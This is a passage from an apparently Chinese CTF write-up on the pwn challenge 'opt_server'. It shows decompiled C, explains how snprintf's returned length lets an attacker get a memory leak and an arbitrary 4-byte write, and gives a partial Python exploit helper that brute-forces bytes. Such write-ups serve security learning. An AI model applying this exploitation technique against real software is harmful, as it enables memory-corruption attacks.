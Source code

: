 
周日有个刷分的英语课的口语考试..发现这次准备比之前好多了看情况成绩应该不错.
内核&虚拟机还是两个硬伤还没开始学，期末考完学吧。
最终排行105，还是自己实力太差了。


# Addition
以下部分是一些复现题目,最进期末可能时间不多不能如数复现。

# opt_server
这题是值得反思的。。。
比赛的时候死活做不出来我居然睿智地认为自己已经做出来了只是网速问题。。。
其实我根本没有get到point。

## vulnerability
```python
unsigned __int64 __fastcall do_enc_and_leak(char *res)
{
  unsigned __int64 v1; // ST28_8
  int RND; // eax
  int rnd; // ST1C_4
  int len; // eax
  __int64 len_1; // ST20_8

  v1 = __readfsqword(0x28u);
  RND = fread_4();
  rnd = RND;
  *(_DWORD *)res = RND;
  len = snprintf(res + 4, 0x104uLL, "%s", &msg);// ret value is the len to msg
  len_1 = len;
  *(_DWORD *)&res[len + 4] = rnd;               // someproble
  do_xor(res);
  do_leak(res, len_1 + 8);
  return __readfsqword(0x28u) ^ v1;
```
这里的`snprintf`比较危险，返回值是`msg`的长度。所以我们可以利用填满`msg`来连接上后面的`key`导致`len`随意控制。
从而产生地址泄漏和任意4字节写`rnd`的问题。

## 利用
'睿智'的我没想到可以多次写。。。做了那么多pwn题还是那么死板实在丢人。
* leak mem
* 从高地址向低地址多次写，每次写上对的值再写下一个字节。

```python
def fill(offset,data):
	key("\xff"*(0x10+offset)+'\x00')
	i=0
	while(1):
		i+=1
		#print i
		enc("A"*0x100)
		p.readuntil("--\n")
		tmp=p.read(4)
		res=""
		for x in tmp:
			res+=chr(ord(x)^0xff)
		res=u32(res)
		res=res>>24
		if ((res&0xff)==data):
			return	
```

[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team